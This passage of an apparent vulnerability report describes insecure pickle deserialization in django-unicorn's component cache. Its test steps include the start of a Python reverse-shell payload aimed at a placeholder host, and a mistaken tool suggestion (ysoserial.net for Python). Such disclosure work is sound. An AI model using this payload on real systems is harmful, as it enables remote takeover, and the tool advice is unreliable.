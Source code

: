    def restore_from_cache(
            component_cache_key: str,
            request: Optional[HttpRequest] = None
        ) -> "django_unicorn.views.UnicornView":
        ...
        cached_component = cache.get(component_cache_key) # Deserialization using pickle.loads inside cache.get

        if cached_component:
            ...
    ```

    - The code directly uses `cache.set` and `cache.get` from Django's cache framework. Django's cache backends, when used with default serializers (like `pickle`), are vulnerable to deserialization attacks if the cache data is not properly secured.
    - The `CacheableComponent` class in `django_unicorn\cacher.py` prepares the component for caching and performs pickle serialization without any security measures.
    - The `restore_from_cache` function retrieves the cached component and deserializes it, making the application vulnerable if the cached data is compromised.

- Security test case:
    1. Setup django-unicorn with caching enabled in `settings.py`:
        ```python
        UNICORN = {
            "SERIAL": {"ENABLED": True},
            "CACHE_ALIAS": "default",
        }
        CACHES = {
            "default": {
                "BACKEND": "django.core.cache.backends.locmem.LocMemCache", # or any persistent cache like redis
                "LOCATION": "unique-snowflake",
            }
        }
        ```
    2. Create a simple django-unicorn component.
    3. In a view that uses this component, trigger an action that causes the component to be cached (e.g., a simple counter component that caches its state after incrementing).
    4. Identify the cache key used for the component (e.g., by logging `component.component_cache_key` before `cache_full_tree` call).
    5. Craft a malicious pickled payload. This payload should execute a reverse shell or similar harmful code upon deserialization. You can use tools like `pickletools` or `ysoserial.net` (if creating payload in python) to craft this payload, targeting Python's pickle vulnerability. Example of malicious pickle payload creating reverse shell (this is just example, needs to be adapted for the target environment and potentially encoded in base64 if needed for cache insertion):
        ```python
        import pickle
        import base64
        import os

        # Reverse shell payload (example, adjust IP and port)
        command = b'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",YOUR_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
